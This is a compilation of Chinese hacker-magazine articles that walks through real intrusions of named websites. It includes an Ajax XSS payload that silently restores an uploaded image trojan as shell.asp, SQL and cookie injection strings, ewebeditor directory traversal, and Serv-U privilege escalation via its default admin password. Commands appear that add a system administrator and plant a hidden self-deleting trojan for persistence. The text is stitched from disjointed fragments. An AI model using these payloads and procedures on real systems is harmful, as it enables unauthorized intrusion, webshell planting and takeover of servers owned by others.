

在“文件上传”处我上传了一个改为 jpg 后缀的 lake2 的 eval 一句话木马。上传成功后会返回给我们文件所上传到的路径及文件名信息，如图5。


把它复制下来并填到后台数据库恢复的“备份数据库路径（相对）”处，下面的“目标数据库路径（相对）”填“`/shell.asp`”，也就是将我们的 eval 一句话木马恢复到网站的根目录下，文件名为“shell.asp”，如图6。


当然你也可以选择将其恢复到网站下其他的目录中，例如填写“`/admin/shell.asp`”的话就会被恢复到 admin 目录下。这时我们打开“Winsock Expert”监视该网页，然后点“恢复数据库”。恢复成功后停止监视，我们抓取到了如图7所示的数据包。


这里只需关注编号为 3 和 4 的包，我们需要提取以下信息：

- 1. 页面的提交方式（POST 还是 GET）
- 2. 提交到的页面（服务器端哪个页面用来处理我们的请求）
- 3. 提交时所传递的参数

```http
POST /admin/admin_database.asp?action=RestoreData&act=Restore HTTP/1.1
```

在编号为 3 的包中的第一行我们看到“`POST /admin/admin_database.asp?action=RestoreData&act=Restore HTTP/1.1`”，所以得到了页面的提交方式为“POST”，提交到的页面为“`/admin/admin_database.asp`”，提交时所传递的参数为“`action=RestoreData&act=Restore`”。

这里跟大家说一下，在 ASP 中凡是需要传递参数的页面都需要在页面名称后面加上“?”，然后再加上传递的参数。最后的“HTTP/1.1”表明使用的是 HTTP/1.1 协议，这个我们不必去理会。再看编号为 4 的包，内容为“`DBpath=%2Fsoft%2FUploadFile%2F2008-1%2F20081169565150421.jpg&backpath=%2Fshell.asp`”，这里的“`%2F`”是“`/`”的 URL 编码形式，其中“`DBpath=`”处指定我们要恢复的文件，“`backpath=`”处指定要恢复到的路径及文件名信息。

好了，现在我们需要提取的信息已经都提取到了：

- 1. 页面的提交方式：（POST）
- 2. 提交到的页面：`/admin/admin_database.asp`
- 3. 提交时所传递的参数：`action=RestoreData&act=Restore&DBpath=%2Fsoft%2FUploadFile%2F2008-1%2F20081169565150421.jpg&backpath=%2Fshell.asp`

上面“提交时所传递的参数”部分，我将两个包中所传递的参数连接了起来。在 ASP 中连接多个参数时使用符号“&”。

接下来我们要做什么呢？可能大家都想到了，就是写一段脚本来实现上面的功能。而且这段脚本在运行时也要保证具有足够的隐蔽性，否则在恢复数据库时堂而皇之地弹出“成功恢复数据！”，那再傻的管理员也知道有蹊跷了！

能够实现在运行时悄无声息，那非 Ajax 莫属了！而且 Ajax 自身的异步数据调用功能也令其隐蔽性大大增强。下面给出我所写的利用代码：

```javascript
// 首先对客户端浏览器进行判断，然后分别定义 XMLHttpRequest 对象
if (window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
} else if (window.ActiveXObject) {
    try {
        xmlhttp = new ActiveXObject("Msxml2.XMLHTTP");
    } catch (e) {
        try {
            xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
        } catch (e) {}
    }
}

// 定义利用数据库恢复功能获得 WebShell 的函数 getshell()
function getshell() {
    var postStr = "DBpath=/soft/UploadFile/2008-1/20081169565150421.jpg&backpath=/shell.asp";
    xmlhttp.open("POST", "/admin/admin_database.asp?action=RestoreData&act=Restore", true);
    xmlhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xmlhttp.send(postStr);
}

// 调用函数 getshell() 执行操作
getshell();
```

- 1. 为了能够编写出兼容性更好的代码，所以要先对客户端浏览器进行判断，然后分别定义 XMLHttpRequest 对象。
- 2. 要注意 getshell() 函数中 XMLHttpRequest 对象的 open 和 send 方法的大小写问题。在我的测试中发现在 IE6.0 下对大小写的检查不是很严格，但是在 IE7.0 下如果被写成了 Opcn 或者 Scnd 就会提示“对象不支持此属性或方法”，切记！
- 3. Ajax 采用一种沙箱安全模型，因此 Ajax 代码只能对所在的同一个域发起请求。
- 4. XMLHttpRequest 对象的 open 方法中的第三个参数用于指定同步或异步方式，默认 true 表示异步方式。

（小编注：受益良多，感谢作者。JavaScript 代码中经常会出现一些莫名其妙的问题，作者在注意事项中提到的问题我基本上全遇到过，虽然部分问题在后来测试后已经得到解决，但今天明白了原因为何在。）

说了这么多，下面我们就来测试一下以上代码的威力吧！

```javascript
if (window.XMLHttpRequest){xmlhttp = new XMLHttpRequest();} else if (window.ActiveXObject){try{xmlhttp = new ActiveXObject("Msxml2.XMLHTTP");}catch(e){try{xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");}catch(e){}}}
function getshell(){var postStr = "DBpath=/soft/UploadFile/2008-1/20081169565150421.jpg&backpath=/shell.asp";xmlhttp.open("POST","/admin/admin_database.asp?action=RestoreData&act=Restore",true);xmlhttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");xmlhttp.send(postStr);}getshell();
```

然后注册一个用户并登录，按照先前的方法选择“发布信息管理”下的“发布软件”，在“文件上传”处上传一个改为 jpg 后缀的 asp 木马，将地址复制下来。紧接着点击页面上方的“客户留言”，进入后点“发新留言”，在“留言内容”处点“插入图像”，输入上述 JavaScript 代码。最后我们修改一下 getshell() 函数中“`DBpath=`”处的值为刚才上传图片的地址信息，“`backpath=`”处的值为我们想要恢复到的路径即可，如图8。


图8

发表留言后登录后台并查看留言，可以说看不到一点异常的地方，几乎和正常访问没有任何区别。

### 四、总结

录下来看看，如图9，是不是已经多出了一个 shell.asp 文件了？

大家在写留言时可以把留言的标题起得尽量吸引人一些，这样才会引起管理员查看的兴趣，接下来就等着管理员上钩了！当然使用这个方法也要看运气，如果遇到那些除了上传目录外其他地方都不给写权限，而且上传目录禁止执行脚本文件的网站，那也没办法了！最后希望新云官方能够及时修补该漏洞，同时也给大家拜个早年，祝大家新年快乐！

**小编点评：** 经典！绝对的经典！利用 XSS 漏洞，一般人可能只会想到弹框框，再多也无非是 iframe 嵌套页面。虽然我也用过在 XSS 中嵌入 iframe 的方法来访问管理员权限验证的页面执行一些操作，但是像作者这样写 Ajax 来进行表单提交确实是第一次听说！在此学习了，同时也感慨黑客的创新精神简直是无与伦比呀！想我许许多多次“防御镜”看了有新云，XSS 漏洞无数，我怎么就没有想到呢？——!☒


## DJ！看我怎么入侵你

Tommie（C.R.S.T）

### 一、OR 突破防注入

春节待在家里上网，我表哥突然找我说要某一个 DJ 网站的 VIP 会员，说搞定后请我吃 KFC。于是我就答应了，使用 IE 打开目标网站，找到一个带参数的 ASP 链接，如图1。


在地址的后边添加 `AND 1=1`，然后进行提交，提示说“非法的 id 参数”，如图2。可能到这里，有些读者就会选择放弃，可实际上如果一个网站的防注入程序不是过滤得很严格的话，可以试试 OR 注入。向注入点提交 `or 1=1`，发现跳到另外一个页面了，如图3。然后在地址栏后边添加 `or 1=2`，提交后返回了最原始的页面，如图4。


由于 OR 的特性，当查询条件为真的时候，返回是异常的；当查询条件为假的时候，返回是正常的。我们分别使用如下语句进行判断：

`/productsview2.asp?id=248 or exists(select * from admin)`  
判断是否存在 admin 这个表，发现返回正常，也就是和图4一样，说明不存在 admin 这个表。

`/productsview2.asp?id=248 or exists(select * from manage)`  
返回异常了，也就是和图3一样，说明存在 manage 这个表。

猜完表后就要开始猜解字段了。继续提交：

`productsview2.asp?id=248 or exists(select username from manage)`

返回异常页面了，说明 manage 这个表中含有 username 这个字段，这时我们就可以猜数据了。提交：

`productsview2.asp?id=248 or (select top 1 asc(mid(username,1,1)) from manage)<123`

判断 manage 表中 username 字段的第一条数据的第一个字符的 ASCII 值是否小于 123……

……需要猜解第二位的时候把上面语句改为 `mid(username,2,1)`，第三位则是 `mid(username,3,1)`……经过一番努力，得到了 username 字段第一条数据的 ASCII 值为 `97 100 109 105 110`，转换得出字符串为 `admin`。猜解完用户名还需要猜解密码，先猜字符再猜数据。

`mdb">` 的第二个 value 值 `/data/#ylmv_data.mdb`，改为你需要备份的文件。可能有些读者不明白为什么要这样改，这里就要运用到一些 HTML 知识了。如果不会的朋友，可以把凡是涉及 `/data/#ylmv_data.mdb` 这个路径（也就是当前数据库路径）全部替换为你需要备份的文件……


……在后台找不到可以上传文件的功能，这时可以到前台看看能不能找到可以上传的地方。这个 DJ 网站能让我们注册会员，于是我就注册了一个会员，在控制面板里找到了可以上传头像的地方，于是就上传了一个只是把后缀改成 gif 格式的一句话 asp 木马，上传后出现了如图7所示的提示。

### 二、HTML 备份限制的突破

使用“哨小子”跑了一个网站的后台，如图5。


使用注入得到的用户名密码登录后台，逛了一圈之后发现有备份数据库的地方，如图6。


不过有 HTML 限制的 input 输入限制，禁止用户修改当前数据库路径项，这个可以突破。“查看”→“源文件”→“文件”→“另存为”，保存到本地。接着使用文本格式打开它，找到 `<form method="post" action="admin_data.asp?...`，把这里的 action 改为 admin_data.asp 文件的 URL 路径……再修改 `<input type="text" ... disabled>` 与隐藏字段 `DBpath` 的值。


原来是判断文件头。这时我们可以借助 ASP 图片木马生成器这款软件，先把一张比较小的图片和一个 asp 一句话木马放到目录下并生成（如图8）。随后上传并按前述方法替换路径，填写备份后的路径进行备份，最后利用连接得到一个 WebShell（如图12）。

### 三、Serv-U 6.4 提权

得到 WebShell 后只需要修改一下数据库就可以拿到 VIP。

好了，既然拿到了 Shell，不提权怎么对得起自己呢？先来看看服务器是用什么 FTP 软件搭建的：“开始”→“运行”→“ftp www.xxx.com”，原来使用的是 Serv-U 6.4，见图13。


最近，针对 Serv-U 6.4 版本有人公布了一个能够提权的 asp 出来，于是我下载回来进行测试，却发现根本无法成功提权，很多朋友都和我一样觉得很郁闷。其实网上的 ASP 大多都是依赖 XMLHTTP 这个组件来访问本地的 43958 端口添加系统权限 FTP 用户。那么我们不使用 XMLHTTP 来替我们添加 FTP 用户，而是我们自己创造条件来访问 43958 端口行不行呢？

上传一个被压缩过的 CMD.EXE（因为 IIS6.0 默认不允许上传超过 200KB 的文件）和一个转发工具 Fpipe.exe 到 `C:\Documents and Settings\All Users\Documents` 这个目录（这个目录默认是 everyone 权限）。另外，我们还得在本地安装好 SERV-U。


在 WebShell 里执行 `"C:\Documents and Settings\All Users\Documents\FPipe.exe" -v -l 43959 -r 43958 127.0.0.1`，如图14。执行之后 IIS 会处于假死状态，这时以后的操作一定要迅速，不然被管理员发现网站访问速度慢了许多那可就麻烦了。打开 SERV-U，点击右键新建一个服务器，如图15。

```bash
"C:\Documents and Settings\All Users\Documents\FPipe.exe" -v -l 43959 -r 43958 127.0.0.1
```


第一步输入目标 IP；第二步会提示要你输入端口号，这时我们输入转发出来的端口 43959；第三步输入 FTP 服务器名称，可以随便输入；第四步输入默认维护账号“LocalAdministrator”；第五步输入默认密码“#1@$ak+,.lk,@P”，连接对方的 FTP 服务器，如图16。


## 一个人的战争


发现已经得到对方 FTP 服务器的管理权限了！新建一个 FTP 用户，在“账户”-“特权”那里选为“系统管理员”，在“目录访问”那里把所有的权限都勾上，最后点击“应用”。

“开始”-“运行”-“FTP www.xxx.com”，输入刚才新建的 FTP 用户和密码，因为对方开了 3389，所以连上去后执行“quote site exec net user hackerxfiles hackerxfiles /add & net localgroup administrators hackerxfiles /add”，返回“200 EXEC command successful”，说明我们已经成功地添加了一个用户和密码均为 hackerxfiles 的管理员，如图19。

登录 3389，打开“任务管理器”-“进程”，勾选“显示所有用户的进程”，找到转发工具的进程 Fpipe.exe 并将其结束掉，如图20。

### 三、最后总结

经过多个版本的测试，这个方法是通杀所有版本的，前提是服务器必须要支持 WScript.Shell 组件或支持执行命令才行。

## 服软——渗某监测某知名信息服务公司网站

绝情[OIO]

我的高中同学明年毕业，今年实习去了这家公司，公司声称培训后会在某知名品牌电脑公司做话务员，但是交完 6000 元的培训费后，却纷纷被派往一些小公司做话务员，所以也就有了这次的安全检测（小编：一看这明显是报复人家些）。为了避免给自己惹出不必要的麻烦，故隐去了公司的信息，把目标站点命名为 A 站。

进行了检测，检测出了三个注入点（图1），是 DB_OWNER 的权限（图2），但是却无法列出目录（图3）。


### 1、第一天

准备检测 A 站的时候已经是晚上了，首先检测了一下同服务器的网站都有哪些（这是一个好习惯），一共找到了 3 个站点，一个是 A 站，一个是 A 的二级域名站，还有一个我们就叫它 B 站吧，后面还要着重提到这个 B 站的。然后我使用啊 D 对 A 站……


都说人多力量大，所以我就把这个网站给 dio 群里的兄弟们看了下下，说说的还真是没错，不一会儿 X 兄弟就把 A 站的后台地址和账号密码给发过来了，人家手工解注的就是准啊（大家一定要学会手工注入哟）！我迅速地登录了后台，但是那个后台实在是太可怜了，没有找到任何有利用价值的功能（图4）。

倒是颜 MM 眼疾手快，直接在后台发现了 ewebeditor 在线编辑器（图5）。这下子大伙高兴了，因为这个编辑器还是很好利用的，我使用默认的用户名和密码顺利地登录了后台（图6）。

才知道原来这是 itbbs 论坛。有了这个发现也是不错的，至少我们可以下载到源代码看看。搜索了半天终于下载到了这个论坛程序源码，直接使用几个很有特点的文件验证一下，全部存在，再次证明了目标站点运用的就是 itbbs 这套程序。但是当我去下载默认的数据库时却提示不存在，都闷了，看来还得再想办法了。往论坛看了看收集了一点信息，管理员的账号是 Admin，而且已经有两个月没有登录了，最新的帖子也是在两个月前，我想这么不在意的一个论坛应该不会很安全吧！

我决定开始收集管理员的信息，运用传说中的社会工程学找找突破口，查看得到了管理员的生日和邮箱，先使用生日作为密码登录论坛试验一次，可惜失败了。在 Google 上搜索了一下这个邮箱，只有一条有用的信息：这个邮箱的主人是一个网站规划的站长，就是给网站做包装推广的啦，这下明白了原来 A 站是这个规划站站长给建的。我突然有一个联想，每次帮助朋友建站的时候都愿意留点自己的信息，这可能是人的虚荣心吧，或者也可能是个变相的广告。

我又使用那个规划站的域名作为密码登录论坛，还是失败了。使用 Admin 的用户名和他的邮箱地址作为密码登录也失败了，我又使用邮箱的用户名作为密码，这次成功地登录了论坛前台（图8）。


二话没说直接奔后台！可是后台还有一次验证，使用刚才的所有用户名密码组合登录全部失败了，我又陷入了僵局。

- 查找到了 B 站，并且含有论坛程序；
- 确认了 B 站的论坛程序为 itbbs，但是默认数据库被更改了；
- 猜到了 B 站论坛管理员的前台用户名密码，但是无法进入后台。

当我使用新建或修改样式并且添加 asa 上传类型的方法时却失败了，操作已经被限制了（图7），看看时间，已经是半夜了只好收工睡觉。


- 知道了 A 站同服务器上的站点；
- 登录了 A 站的后台，但是无利用价值；
- 发现有 ewebeditor 在线编辑器，但是不能添加或修改样式。

### 2、第二天

现在只剩下我自己去继续了，我在 A 站的页面上仔细地看了看结构，一通乱点后发现了另外的一个站点，对照昨天查询旁注时的记录来看，这个站点就是昨天查到的 B 站。原来 B 站是 A 站的一个下属站点。打开 B 站看了看，都是静态页面没什么突破，但是在角落里却发现了一个小论坛，刚开始看上去很像 bbsxp 的风格，所以我就盲目地按照 bbsxp 来寻找突破口，但是毫无收获。最后用论坛的菜单关键字在 Google 里搜索了一下。

### 3、第三天

本来自己的水平也不怎么样，搞不下就放弃呗！然后开始在网上闲逛，我有一个爱好就是爱看各位强人的博客，忽然一个日志引起了我的注意：ewebeditor 在线编辑器还有个遍历目录的漏洞，自己以前是知道的，怎么就没想到呢？看文章的时候都觉得掌握了，可是实际运用的时候却是另外一回事。

简单地介绍一下这个漏洞：当进入了 ewebeditor 在线编辑器的后台，点击上传文件管理选项，在下拉列表里随意选择一个样式，这时会显示该目录下的所有文件，此时的地址栏末尾会有类似 webeditor/admin_uploadfile.asp?id=34 这样的链接，我们在 webeditor/admin_uploadfile.asp?id=34 的末尾添加“&dir=..”，这样就会跳到上一级目录；加“&dir=../../”就会跳到“&dir=..”的上一级目录，以此类推一级一级地跳。原理既然大家都已经知道了就好办多了，跳了两次之后就来到了 A 站的根目录下（图9）。

在 A 站的根目录看了半天，没找到什么突破口，我尝试着又向上跳了一次，这下看到了 B 站的目录。还记得吗？B 站里还有个论坛呢！我跳进了 B 站的目录，然后进入论坛目录，首先看到了一个 databack 目录，这个论坛的后台一定有备份功能，我们成功的可能性又大了不少。找到数据库目录进去一看才知道，数据库的默认名字没有改变，只是大小写的顺序改变了一下，怪不得无法下载，看起来管理员还是有点道行的。下载了数据库后查看得到了后台用户名和密码（图10、图11、图12），然后顺利登录了后台（图13）。

然后在前台找个帖子发一张图片，当然这张图片是改过后缀名的小马（图14）。上传成功后返回了图片的文件名，我们已经知道了论坛的目录结构，当然也就知道图片的路径了，使用备份数据功能把图片备份成为 asp 结尾的文件（图15）。打开来看一下我们可爱的小马，已经顺利地潜入了服务器（图16），然后使用小马上传一个大马。


现在我们已经在 B 站的目录里了，可是别忘了我们的目标是 A 站，我向 A 站里跳了一下可以进入（路径刚才在 ewebeditor 遍历目录的时候已经知道了），而且权限也相对比较宽松，上传一个大马到目标站点，此次检测到此结项（图17）。

第三天的收获如下：

- 运用 ewebeditor 在线编辑器遍历目录漏洞找到了 B 站论坛的数据库；
- 进入 B 站论坛后台，通过备份成功拿到 B 站；
- 跳转到 A 站，上传大马成功拿下 A 站。

在过程中我可能犯了很多的低级错误，比如没有仔细想想 ewebeditor 是不是还有其它的漏洞，另外就是没有自己检查就盲目地确定了 B 站的论坛程序，这些小失误都浪费了很多的时间，这些都是我们应该注意的……

> 当自己去做的时候就完全不是那么回事了，文中有不妥之处请多多包涵。

## 小编点评：

总的来说还是不错的，合理运用目前已知的漏洞以及社会工程学，当然如果能直接从论坛代码上入手的话会更简单一些……这些小 BBS 程序漏洞可是一抓一大把哦！

## 利用列目录漏洞来突破讯时靓丽系统

冰域剑客


讯时的各个版本都已经出现过很多漏洞了，但今天我要讲的则是利用讯时的一个列目录漏洞进行突破。以前在入侵一个网站时发现对方使用了讯时新闻系统，于是就想到了利用 cookies 注入漏洞来进入后台上传木马……

### 一、Cookies 注入进后台

因为很多朋友对讯时 cookies 注入漏洞还不是很熟悉，我就简单地描述一下：首先打开老兵的 cookies 修改工具……填上这样的 cookies：`adminuser=admin; adminpass=%27or%27%3D%27or%27; admindj=1`，在这里是把 adminpass 的值变成 `'or'='or'`，实现了注入。


大家可以自己在本地或者空间上传一个讯时的程序来获得 cookie 样本，然后修改其中的 adminpass 值为 `%27or%27%3D%27or%27`。

### 二、列目录漏洞进行突破

进入后台以后直接上传了一张由 asp 木马保存为图片的文件……查看地址格式 `Admin_UploadFile.asp?id=46`，再翻到下一页出现了 `Edit/Admin_UploadFile.asp?id=46&dir=&page=2`，由此怀疑存在路径相关参数可利用。

有一个 dir 的变量，那么肯定就是从客户端获取文件夹名和相对路径了。我立刻将地址栏中的地址换成了 `Admin_UploadFile.asp?id=46&page=2&dir=`，并将 dir 参数改成 `../../`，变成了 `/Edit/Admin_UploadFile.asp?id=46&dir=../../`……程序报错了，如图2。


在 MapPath 的 Path 参数中发现了一个无效的“/”或“\”，再来是多了一个“/”，我把两个“/”去掉，变成 `dir=...`，顺利拿到了 ewebeditor 的相对和绝对文件路径……再次修改 dir 为 `dir=../../..`，顺利进入站点主目录。


所有的 ewebeditor 都存在这个漏洞……例如有些时候数据库不能更新，我们就可以利用列目录的方法来快速定位可利用的地方。还有些时候上传目录不能执行可执行程序，也都可以用到。希望大家好好利用这个漏洞。（文中涉及到的老兵 cookies 修改工具已经收录在光盘中）

## 菜鸟来踢游房地网

冰 sugar（J.S.T）


中国的房子日益增长，房产商也赚得不亦乐乎。特别是大过年，买房子的人也多了……我打开百度，搜索“福建楼市”，跳出的第一个网站链接我就直接点击打开了，如图1。


来到这个房地产网站转转，看着域名还很气派的，意思就是“我就要房子”……冲着这个白日梦，我立马行动了起来。

### 一、初试牛刀

按下首页，那些新闻都是静态页面，没有什么可以利用的，也没有什么 IIS 的设置漏洞……我在主页有个搜索页，看看能不能 XSS 下，输入了跨站的代码，还真能跨呀，如图5。


我又输入构造出的代码，发现语句也能执行，如图6……在主页我终于找到了一个可以利用的动态页面，并且还成功检测出了注入点，如图7。

| 字段 | 内容 |
|---|---|
| 注入点 | `http://www.591house.com.cn/591bbs/diaphp.asp?...` |
| 注入点 | `http://www.591house.com.cn/news3/morewks.asp?...` |


后来我又在网上找了工具，终于找到了一个留言板，如图9。输入 XSS 跨站语句 `<script>alert("跨")</script>`，结果没有动静，只是把输入的文本保存在了下面的留言中。


## 一个人的战争


不知不觉跳到了这个页面，随便选一个进去，结果还是一块一块的静态页面，仍然是没有用，但是后来证实静态页也并非完全没有用。不小心点进了静态页面，看到了图片，既然有照片，那就需要上传，那么就应该有上传的页面。还是来看看图片的属性吧，如图12。


上面有个图片链接地址，有个 cmseditor 引起了我的注意，editor 不是在线编辑吗？如果有在线编辑的话就可以搞下 webshell 了。我找到那个地址，果然是在线编辑器，如图13。

使用 admin 的默认密码还真进去了，看来这网站的安全性也不怎么样啊，如图14。选择“样式管理”——“新增样式”，添加一个 asa 的文件类型，然后设置一个工具栏，再打开上传页，把我们的脚本木马上传到服务器中，如图15，就这样得到了 webshell，如图16。


### 二、服务器提权

得到了 webshell 不提权的话好像太对不起自己了，也枉费了我拿 webshell 的辛苦。我们要有黑客精神，不怕困难，勇往直前。

这个服务器是处于内网中的，最近运气比较衰，搞到的服务器都是内网的，限制很多，不过即使如此，我们也不能就此放弃。在程序目录下看了看，发现安装了 360 安全卫士、诺顿杀毒软件，其它的就没有什么了，如图17。


查“服务信息”、“组件支持”，发现服务器支持 WSCRIPT、SHELL，这说明我们可以运行 CMD，能执行一些操作，如图18。因为得到的 WEBSHELL 的权限并不小，还能浏览 D 盘，而且服务器还挂着其他的站点 www.housemedia.cn 和 www.6house6.com，如图19。对于这两个站点的目录也能够进入，看来这几个都是同一个公司的。进入 `D:\Program Files` 目录，发现有 serv-u，这下我可喜出望外了，如图20。


虽然安装有 serv-u，我们就试试看是否真打开，或者是管理员没用了。发现 serv-u 的版本是 6.0 的，看来提权有望了，如图21。不是前一段时间出了个 serv-u 的 0day 溢出吗，通杀所有的版本。

## 一个人的战争


要说 6.0 版本，其他的版本也照样能拿下。说干就干，利用 serv-u 来添加一个系统账户看看，这东西它不管成功与否都会显示授权完毕，反正我们也已经习惯了（图22）。接下来就是查询一下有没有添加账户进去。

……并且已经把账号也添加进去了。就这么容易地添加上了管理员，最后当然是使用 LCX 在本地进行监听，利用 LCX 把服务器的 3389 端口转发到我们本地电脑的某个端口上，然后通过远程桌面连接 127.0.0.1 以及刚才在本地转发的那个端口，输入我们刚才添加的账号密码就可以远程登录进入对方的系统了。


再使用本地扫描器来证实对方确实开着 43958 端口，如图23。

### 三、总结

就这样，很快地就拿下了服务器，对于这次的入侵我还是挺满意的，得到了系统权限后，我又通知了对方的管理员，希望管理员不要疏忽这些漏洞，特别不要忘了 serv-u 默认安装的危害。

> （文章中涉及到的明小子注入工具以及专用 ASP 木马已经收录在光盘中）

## 看菜鸟渗透清华同方网站

冰 sugar [J.S.T]


### 一、事出有因

我一兄弟买了一台笔记本电脑叫我过去看看，兄弟说买的是清华同方电脑，似乎还不错吧，双核的配置，1G 内存 60G 硬盘，再加上内置的摄像头，花了 6000 块大洋呢。不过好在是他舅舅付的钱，他当然高兴了。哈哈，以后我就可以利用兄弟共享一台笔记本了。可是没过几天，就发现毛病多多呀，一会儿是电源问题一会儿又是主板问题，真是让我们郁闷极了……为了给兄弟出口气，于是便有了下文。

### 二、初入虎穴

打开百度搜索一下，看能不能找到一些关于清华同方的资料，找到的第一个就是清华同方股份有限公司的网站，查询网站（http://www.seologs.com/ip-domains.html），查询后的结果如图4所示。


通常排在第一的都不是普通的网站，直接进去瞧瞧吧，逛了好几分钟，发现这个网站使用的都是静态的页面，没有什么好利用的，因为网页大多数都是他们自己写的，好不容易找到一个 SQL 注入点并且是 public 权限，却又无法列出目录也没有利用价值，只好在主站上瞎逛逛，找找图片的链接，如图2。

地址中有个 admin 引起了我的注意，看看能不能找个后台利用 SQL 注入得到账号和密码，或者是使用万能钥匙（'or'='or'）看能不能进入。输入后台地址后却出现了让我傻眼的事情，如图3。


Admin 文件夹下需要用户验证才能进入，真是个 BT 的设置。看来站长还是有一定的安全防范意识，既然无法从主页下手，那么我们就选择旁注，进入旁注。


检测出来的站点倒是不少，我依次看了下，发现其中有一个站点打不开，而其余的几个站点则挂了几张简介页面，其余的就什么都没有了，看来这条路也走不通。

放弃吗？放弃的话也太没有黑客精神了吧！从网站入手是没戏了，看看是否可以从其他的地方入手，不知道服务器存在什么漏洞，我尝试了各种远程溢出都没有成功，服务器还算牢固。利用 IIS 权限设置漏洞扫描是否存在低级的 IIS 配置错误，扫描以后才发现原来服务器是处于内网中的，都没有显示 IIS 的版本，只显示 0，如图5。


看来即使有 IIS 设置漏洞也没有办法成功拿到 Webshell 了，还是回到主站看看有什么可以再深入利用的，这次糊里糊涂地就进入了清华同方智能卡产品的网站，如图6。这个站点倒是有很多动态网页，我在地址后输入了一个“'”，提交后弹出了错误提示框，如图7，看来是做了防注入处理了。


再来找找有没有什么好利用的，使用啊D扫描了一下后台，后台倒是非常轻松地给找出来了，如图8。我尝试了默认的密码，比如 admin、admin888、123456、"or1="or1" 等等，都无法登录。我仔细看了看后台登录页面，发现了一个奇怪的事情，清华同方智能卡网站的后台发的竟然不是它自己的后台信息，如图9。


看来对方的网站就是上图中那个信息网站给制作的，对于一个专业制作网站的公司来说，他们基本上都会有一个统一的后台管理的账号密码。我赶紧进入了那家公司的网站，查找对方的建站范例，找到了其中的一个站点，而这个站点又没有修补 SQL 注入漏洞，于是我成功地拿下了数据库并下载了回来，如图10。看来这就是专业建站公司的建站风格了，接下来我们就可以利用得到的账号和密码进行登录了。


### 三、轻松 Webshell

我猜的没错，账号和密码果然是使用默认的，网站管理员也没有做过什么修改，很顺利地就进入了后台，如图11。进入了后台，接下来就是想办法得到 Webshell 了，看看网站后台有没有上传和备份，因为目前大多数的企业网站已经不能直接上传脚本文件了，很幸运地找到了上传和备份页面，如图12。接下来嘛，上传一个 jpg 图片格式的脚本木马，然后再进行后台备份，简单的操作我就不一一介绍了，不懂的朋友可以参见以前的杂志，就这样简单地获得了 Webshell，如图13。


### 四、继续我的权限之路

虽然已经拿到了 Webshell，但是我仍然不肯罢休，看看我们的 Webshell 要怎么利用。首先查看一下对方服务器都支持什么，看看有什么好的东西可以提升权限的，发现 Scripting.FileSystemObject 和 wscript.shell 组件都可以使用，如图14，这下可就好办了，传个 cmd 上去看看。把本地的 cmd 上传到对方服务器的 `C:\Documents and Settings\All Users\Documents\` 目录里面，因为这个文件夹默认对所有用户都有执行的权限。完成上传后，我执行了一下 ipconfig，从结果中一眼就能看出这台服务器是处于内网中的，如图15。接着来看看 net.exe 有没有被管理员禁掉，在对方的 CMD 上执行 net user 显示出了对方系统中的用户信息。


net start（查询服务器开启的服务），基本上能够利用的有 MSSQLSERVER、MySql，杀毒软件安装的是诺顿，如图16。只可惜没有安装 serv-u（如果安装了 Serv-u 的话那提权就轻松多了，至少获取终端权限的几率大多了）。

好在有 mysql，看看我今天的运气如何，我查找了半天，最后终于在 c 盘 windows 目录下的 my.ini 文件中找出了用户名和密码，如图17。对于处在内网中的 mysql 我以前从没有碰到过，而且对于 mysql 也不是太懂，看看色包兄又没在线，还是换种提权方式吧。


初看服务器，Webshell 的权限还算蛮大的，能浏览其他盘的目录，甚至还有修改的权限，我在服务器上到处逛后来又发现了 CesarFTP，这是继 serv-u 后又一款新型的 FTP 服务器。对于这款 FTP 我也不是太了解，于是就去网上找了找相关资料，发现这款 FTP 软件存在一个严重的漏洞，在配置文件里保存着明文的密码，即明文密码是保存在该软件安装根目录下的 settings.ini 文件中的。我马上到服务器上寻找 settings.ini 文件，真的找到了这个文件，如图18。

找到配置文件后，我赶紧在本地安装了一个 CesarFTP 想覆盖对方的文件，后来发现里面有账户能够直接连接 ftp，下载个 flashxp 连接上去，直接浏览 C、D 盘，如图19。


但是这款 FTP 没有执行权限，就只能是呆呆地看着 C、D 盘里的东西，看得到却吃不到，MYSQL 找到了密码又连不上，而 MSSQL 也找不到什么可以利用的，真是郁闷极了。翻看着里面 Program Files 目录，寻找着能够利用的第三方软件。

装了一些软件，但是真正能够利用的却没有几个，手上大概能够利用的也就是 FTP 了。后来逛了逛启动项，发现里面的目录可以写，其实在 `C:\Documents and Settings\All Users\「开始」菜单\程序\启动` 目录下直接传个反弹木马也是可以的，等服务器重启后我们还是一样能够拿到服务器的权限，如图20。


图23


图20

把木马设置为运行后自动删除本身，并且把木马的属性修改为隐藏，这样就万无一失了。过了几天后发现服务器还是没有重启，没有那个耐性继续等待下去了，我需要速战速决。

